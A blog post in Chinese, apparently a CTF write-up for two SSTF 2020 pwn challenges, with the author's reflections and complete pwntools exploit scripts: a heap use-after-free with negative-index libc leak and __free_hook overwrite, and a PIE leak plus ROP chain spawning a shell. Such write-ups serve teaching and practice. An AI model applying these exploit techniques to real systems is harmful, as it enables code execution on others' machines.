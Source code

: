 ```yaml
---
layout:     post
title:      2020 ssctf(Hacker's Playground) wp
subtitle:   T express, Eat the pie
date:       2020-08-10
author:     wxk1997
header-img: img/pwn-bg.png
catalog: true
tags:
    - ctf
    - pwn
    - writeup
---
```


# 前言

深刻地感受到自己变菜了. 两道非常简单的题目都没做出来. 一题是堆的uaf. 有个非常明显的整形溢出没有看到, 导致一直无法leak地址. 还有一题也是整形溢出可以, 需要在栈上构造rop链执行system("sh"), 也是卡住了. 太菜了 :(

# 正文

## T express

glibc 2.31. 保护全开. 有个 uaf 漏洞. 但是限制了只能malloc 7次. 通过另一个 off-by-one 漏洞可以实现 double free. 但是因为次数限制所以无法leak 地址. 卡了一会儿就去看别的题目了. 赛后学弟才在 show 功能中没有校验输入的索引是否为负数. 所以可以通过负的索引通过 stdout leak  lbic地址. 

```c
int index; // [rsp+Ch] [rbp-4h]

printf("Index of ticket: ");
index = read_l();
if ( index <= 6 && passes[index] ) {
    ...
}
```

没啥好说的, 就是菜. 不找借口. 

exp 如下:

```python
from pwn import *

filename = "./t_express"
ip = "t-express.sstf.site"
port = 1337

LOCAL = True if len(sys.argv)==1 else False

elf = ELF(filename)

remote_libc = "./libc.so.6"
if LOCAL:

    io = process(filename, env={'LD_PRELOAD': remote_libc}) 
    libc = ELF(remote_libc)
else:
    context.log_level = 'debug'
    io = remote(ip, port)
    libc = ELF(remote_libc)

def choice( idx):
    io.sendlineafter( "choice: ", str(idx))

def lg(name, val):
    log.info(name+" : "+hex(val))

def add( ticket_type, data1, data2):
    choice( 1)
    io.sendlineafter( " buy?\n", str(ticket_type))
    io.sendafter( "First name: ", data1)
    io.sendafter( "Last name: ", data2)

def show( idx):
    choice( 2)
    io.sendlineafter( "Index of ticket: ", str(idx))

def rm( idx, op=''):
    choice( 3)
    io.sendlineafter( "Index of ticket: ", str(idx))
    if op != '':
        io.sendlineafter( "1) meal 2) safari 3) gift 4) ride\n", op)

add( 1, '/bin/sh\n', 'a'*8)
add( 1, 'bb', 'aaa\n')
add( 1, 'bb', 'aaa\n')
add( 1, '/bin/sh\n', 'aaa\n')
rm( 2)

rm( 1)
rm( 0, '4')
rm( 1)

show( 1)
io.recvuntil( "|name |  ")
heap_addr = u64(io.recv( 6) + b'\0\0')
lg("heap_addr", heap_addr)

show( -8)
io.recvuntil( "|name |  ")
io.recv( 9)
libc_addr = u64(io.recv( 6) + b'\0\0')
lg("libc_addr", libc_addr)

libc.address = libc_addr - 0x1ec723

lg("libc base", libc.address)

fh = libc.symbols['__free_hook']
system = libc.symbols['system']

add( 1, p64(fh), '\n')
add( 1, p64(fh), '\n')
add( 1, p64(system), '\n')

rm( 3)

io.interactive()

```

## Eat the pie

32位程序, 开了pie. 栈上有函数指针, 因为输入结尾没有用 `\0` 截断所以是可以以leak 代码段地址的. 我tm又没看到. 这道不算什么. 问题是之后的构造过程也没构造出来. 思路太僵化了. 赛后看了一下别的队的题解, 就是先跳到 read 构造一个 rop chain 再通过 rop 执行 system("sh").

exp如下

```python
from pwn import *

# io = process("./eat_the_pie")
io = remote( "eat-the-pie.sstf.site" , 1337 )

io.sendlineafter("Select > ", "4"*15)
io.recvuntil("4"*15+'\n')
tmp = io.recv(4)
elf_base = u32(tmp) - 0x74d
print("elf base", hex(elf_base))

g1 = elf_base + 0x970
io.sendafter("Select > ", "-1 dabcdabcd"+p32(g1))

PebpR = elf_base + 0x00000a9b
system = elf_base + 0x5a0
sh_str = elf_base + 0x31a

payload = flat(system, 'aaaa', sh_str, 'aaaa', PebpR)

sleep(1)
io.sendline(payload)
```


# 结语

周日刚做出一道堆题就开始洋洋得意了, 结果这次连两道贼基础的题目都没做出来. 太菜了, 不要再飘飘然忘乎所以了, 老老实实刷题吧.


# 参考

1. [参考题解](https://github.com/theori-io/ctf/blob/master/SSTF%20CTF%202020%20Write%20Up%20-%20The%20Duck.pdf)